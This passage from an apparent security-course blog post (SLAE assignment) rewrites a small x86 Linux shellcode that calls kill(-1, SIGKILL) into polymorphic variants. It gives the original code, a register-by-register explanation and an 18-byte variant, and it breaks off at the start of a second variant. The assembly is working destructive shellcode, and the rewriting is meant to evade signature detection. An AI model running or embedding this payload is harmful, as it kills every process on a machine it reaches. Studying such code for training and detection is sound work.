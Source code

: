 Original code is 11 byte long. For the assignment engagement rule, the modified
code can't be longer than 150% of the orignal one, that it is 16 bytes (and an
half :-)).

{%highlight asm%}
; kill-em-all original shellcode
; http://shell-storm.org/shellcode/files/shellcode-212.php

section .text

global _start

_start:
  ; kill(-1, SIGKILL)
  push byte 37
  pop eax
  push byte -1
  pop ebx
  push byte 9
  pop ecx
  int 0x80
{%endhighlight%}

To create a first alternate version, we can separate shellcode parts in smaller ones and then rewrite in an alternative way:

* set EAX to 0x25 (that is 37 in decimal, the code to kill(2) system call as
  defined in /usr/include/i386-linux-gnu/asm/unistd_32.h)
* set EBX to -1, since we want to launch the signal to every process
* set ECX to 9, since it is the code for the SIGKILL signal (as defined in
  /usr/include/asm-generic/signal.h)
* call INT 0x80

{%highlight asm%}

section .text

global _start

_start:
	xor ebx, ebx

	mov cl, byte [data]
	mov al, byte [data+1]

	dec ebx
	int 0x80

data: 	db 0x25, 0x09
{%endhighlight%}

This first kill\_em\_all variant is 18 bytes long, so it doesn't fit my
assignment rules and it can't be a feasible solution.

I'll change then the byte assignment, not using a define byte approach but a
direct load, instead:

{%highlight asm%}
; Filename: 	kill_second_variant.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Blog post:  	https://codiceinsicuro.it/slae/
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	This is my second variant for kill -9 -1 shellcode. This
;		shellcode is 13 byte long and I will use it as a skeleton for
;		polymorphic generator. 

section .text

global _start
